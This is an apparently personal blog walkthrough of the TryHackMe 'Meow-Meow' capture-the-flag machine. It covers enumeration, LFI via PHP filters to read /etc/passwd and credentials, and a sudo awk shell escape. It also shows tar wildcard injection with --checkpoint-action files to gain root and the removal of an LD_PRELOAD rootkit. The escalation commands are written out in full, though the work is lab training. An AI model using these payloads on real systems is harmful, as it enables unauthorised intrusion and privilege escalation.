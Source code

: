 ```yaml
---
title: Meow-Meow walkthrough
date: 2024-11-24 04:15:00 +0530
categories: [Writeup, TryHackMe]
tags: [lfi, privesc, tar wildcard, rootkit, user space rootkit]
image:
  path: /assets/writeup/tryhackme/meowmeow/meowmeow.png
  alt: Backtrack image
---
```

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
#### This is a medium level machine on tryhackme. In order to gain root access first we will use **LFI** to gain bat user access after that use the **awk** to gain devilx user shell then user **tar wildcard injection** to gain root and there we need to bypass the **rootkit** to gain root flag.
{: data-toc-skip=''}
<!-- markdownlint-restore -->
## **Enumeration**
### NMAP Scan
```console
Nmap scan report for 10.10.171.71
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
2200/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:34:c5:d4:c0:13:9e:1b:9f:e5:87:66:88:83:b0:65 (RSA)
|   256 b2:d8:ca:85:c3:14:a9:c1:73:46:03:c5:4c:38:82:48 (ECDSA)
|_  256 1d:01:08:e4:e7:2a:29:8a:00:ee:12:2d:6f:ef:f4:c9 (ED25519)
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/bat.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have 2 ports open
- 2200 - SSH
- 8000 - webapp
### Port 8000
- This was a very minimal web application.
- But the nmap scan shows there is a disallowed entry `/bat.txt`
## bat user shell
### Contents of bat.txt
```console
text/gb2312
------------------------------------------------------------------------------------------------------
YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA=
------------------------------------------------------------------------------------------------------
```
- as the hint(gb2312) suggests it is a chinese character(from wikipedia (https://en.wikipedia.org/wiki/GB_2312)) for decoding no online tool found so made this small python script

```py
import base64

# Your Base64-encoded string
base64_string = "YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA="

# Decode the Base64 string
decoded_bytes = base64.b64decode(base64_string)

# Decode the bytes to a GB2312-encoded string
gb2312_text = decoded_bytes.decode("gb2312")

print(gb2312_text)
```
### Output
```console
bat@MSI:~$ python3 a.py
bat 用户的密码最近被重置，并作为备份存储在当前用户主目录中的 backup.txt 中
```
- After translating
```
The bat user's password was recently reset and is stored as a backup in backup.txt in the current user's home directory.
```
- This text hint us that there is lfi somewhere lets try to find it
- Using `ayjun` for finding parameters.
```console
kali@kali ~ → arjun -u http://10.10.171.71:8000/            
    _
   /_| _ '
  (  |/ /(//) v2.2.6
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: view, based on: body length
[+] Parameters found: view
```
- So lets try to access /etc/passwd
![1.png](/assets/writeup/tryhackme/meowmeow/1.png)
- We got invalid request maybe there are some filters in place.
- Lets try to bypass it through `php filters` payload
![2.png](/assets/writeup/tryhackme/meowmeow/2.png)
- We got base64 encoded response let's dcode it and see whats inside
```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
devilx:x:1000:1000:meowmeow:/home/devilx:/bin/bash
bat:x:1001:1001::/home/bat:/bin/sh
```
- We found current user's (www-data) home directory and the place where bat's password is stored. i.e. /var/www/backup.txt
![3.png](/assets/writeup/tryhackme/meowmeow/3.png)
- Another base64 but with rot 21
![4.png](/assets/writeup/tryhackme/meowmeow/4.png)

- These are the SSH creds lets login using SSH running on port 2200.
### user flag
- In the home directory of devilx user there is user.txt which is also accessible by bat. So in other words we got user.txt

## devilx user shell
- after using `sudo -l` we can see that bat user can use awk as devilx user so lets use this
```console
$ sudo -l
Matching Defaults entries for bat on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bat may run the following commands on meowmeow:
    (devilx) NOPASSWD: /usr/bin/awk
```
- payload used: `sudo -u devilx awk 'BEGIN {system("/bin/bash")}'`

## shell as root
- here if we do `sudo -l` we can see that devilx user can run `/opt/backup/backup.sh` as root
```console
devilx@meowmeow:/home/devilx$ sudo -l
Matching Defaults entries for devilx on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User devilx may run the following commands on meowmeow:
    (root) NOPASSWD: /opt/backup/backup.sh
```
### contents of backup.sh
```sh
#!/bin/bash
/bin/tar -cf backup.tar *
```
- After searching a little on google we can find a way to exploit this
- payload used:
```console
cd /home/devilx
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /opt/backup/backup.sh
```
![5.png](/assets/writeup/tryhackme/meowmeow/5.png)
### root flag
- although we are root we can't cat /root/root.txt
- there is an another file with name `important-notice.txt`
```
Now you have to find a rootkit which is harming our servers
```
- So due to this rootkit we are not able to cat /root/root.txt . We need to bypass this to get flag
- Let's check if it is user space rootkit using `ldd /bin/ls`
```console
root@meowmeow:/root# ldd /bin/ls
        linux-vdso.so.1 (0x00007ffd2b1b4000)
        /usr/local/lib/kit.so (0x00007f5fb120e000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f5fb0fe6000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5fb0bf5000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f5fb09f1000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f5fb0780000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5fb1632000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f5fb0561000)
```

- now finally we find kit.so that looks odd and its name also suggests that it is the rootkit harming sytem (preventing us from reading /root/root.txt)
- now we will just try to remove it by moving it from /lib to another directory
- after moving it we were able to get flag
```console
root@meowmeow:/root# mv /usr/local/lib/kit.so /tmp/
root@meowmeow:/root# cat root.txt 
ERROR: ld.so: object '/usr/local/lib/kit.so' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
<REDACTED>
root@meowmeow:/root#
```














